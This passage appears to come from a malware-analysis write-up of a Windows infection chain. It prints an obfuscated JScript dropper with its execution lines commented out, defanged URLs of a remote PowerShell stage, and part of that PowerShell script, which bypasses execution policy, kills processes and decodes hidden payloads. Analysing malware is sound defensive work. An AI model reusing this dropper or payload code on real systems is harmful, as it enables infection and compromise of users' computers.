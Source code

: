 ``` javascript
 _g0g0g0g0=[_cs[90],_cs[39],_cs[21]+_cs[16]+_cs[104]+_cs[5]+_cs[14]+_cs[73]+_cs[28]+_cs[30]+_cs[74]+_cs[122]+_cs[54]+_cs[94]+_cs[82]+_cs[63]+_cs[34]+_cs[98]+_cs[55]+_cs[57]+_cs[9]+_cs[69]+_cs[65]+_cs[95]+_cs[119]+_cs[109]+_cs[68]+_cs[41]+_cs[8]+_cs[20]+_cs[101]+_cs[113]+_cs[80]+_cs[112]+_cs[18]+_cs[117]+_cs[37]+_cs[23]+_cs[108]+_cs[8]+_cs[64]+_cs[86]+_cs[103]+_cs[67]+_cs[121]+_cs[31]+_cs[111]+_cs[19]+_cs[78]+_cs[29]+_cs[87]+_cs[114]+_cs[76]+_cs[97]+_cs[62]+_cs[42]+_cs[4]+_cs[120]+_cs[21]+_cs[37]+_cs[118]+_cs[79]+_cs[93]+_cs[49]+_cs[93]+_cs[93]+_cs[49]+_cs[93]+_cs[49]+_cs[49]+_cs[49]+_cs[1]+_cs[113]+_cs[91]+_cs[38]+_cs[46]+_cs[53]+_cs[107]+_cs[48]+_cs[106]+_cs[43]+_cs[3]+_cs[105]+_cs[25]+_cs[83]+_cs[70]+_cs[35]+_cs[40]+_cs[77]+_cs[32]+_cs[116]+_cs[99]+_cs[3]+_cs[122]+_cs[23]+_cs[118]+_cs[92]+_cs[123],_cs[7],_cs[71],_cs[81]+_cs[88]+_cs[51]+_cs[22]+_cs[13]+_cs[58]+_cs[0]+_cs[75]+_cs[47]+_cs[96],_cs[33],_cs[26],_cs[85]+_cs[100]+_cs[102]+_cs[60]+_cs[110]+_cs[6],_cs[10]+_cs[24]+_cs[27]+_cs[99],_cs[52]+_cs[3]];

 _g1=[_g0g0g0g0[4],_g0g0g0g0[6],_g0g0g0g0[1],_g0g0g0g0[0],_g0g0g0g0[3],_g0g0g0g0[7]];

WScript.Echo(_g0g0g0g0)
 //new ActiveXObject(_g1[3]+_g1[1]+_g1[4]+_g1[5]+_g1[0])[_g1[2]](_g0g0g0g0[2],0,true);
 
 //WScript[_g0g0g0g0[10]](10000);
 
 //new ActiveXObject(_g0g0g0g0[5])[_g0g0g0g0[9]](WScript[_g0g0g0g0[8]]);
```

When executed, this gives us the following:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f8dbf57c-c55e-449e-8842-cb466a114597)

We're presented with a PowerShell script which downloads and executes the contents of the given domain.

## PowerShell - Stage 2 
The domain in question redirects to a bitbucket link and hosts a PowerShell script.

Initial URL: hxxp[://]htloctmain25.blogspot[.]com/atom.xml

Effective URL: hxxps[://]bitbucket[.]org/!api/2.0/snippets/nigalulli/eqxj7X/b2354d985832bb13d56bcd2b11ee00ed11b27f6a/files/file

Contents of the script:

``` powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
"RegSvcs", "mshta", "wscript", "msbuild", "FoxitPDFReader" | ForEach-Object { Stop-Process -Name $_ -Force }

$DINDHAM= "C:\ProgramData\MINGALIES"
ni $DINDHAM -it d -fo

$lulli = @'



$muthal = (Long strings of 0s and 1s with a replace command at the end)

$bulgumchupitum = (As above)

#kcuf em rederhar

function asceeeeeeeeeeeeeeee {
    param (
        [string]$binaryString
    )

    try {
        $asciiText = -join ($binaryString -split '(.{8})' | ForEach-Object { if ($_ -ne '') { [char]([Convert]::ToByte($_, 2)) } })
```